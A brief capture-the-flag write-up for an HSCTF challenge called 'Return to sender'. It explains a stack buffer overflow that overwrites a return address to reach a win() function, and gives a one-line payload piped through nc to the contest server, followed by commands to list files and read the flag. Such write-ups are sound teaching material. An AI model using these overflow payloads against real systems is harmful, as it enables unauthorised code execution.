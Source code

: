 # Return to sender write-up

Looking at the C file, we know that the `vuln()` function doesn't handle our oversized input correctly, allowing us to write to the stack and change the return address of our function.
Using OBJDUMP, the address of the `win()` function can be found. Next I need to attach a shell to that our program doesn't close automatically. Lastly I just tried using both ways of little-endian / big endian and found little endian to work. 

The one-liner solution: 

```sh
(python -c 'print("a" * 8 + "\xb6\x91\x04\x08" * 4)'; cat -) | nc pwn.hsctf.com 1234
ls
cat flag
```
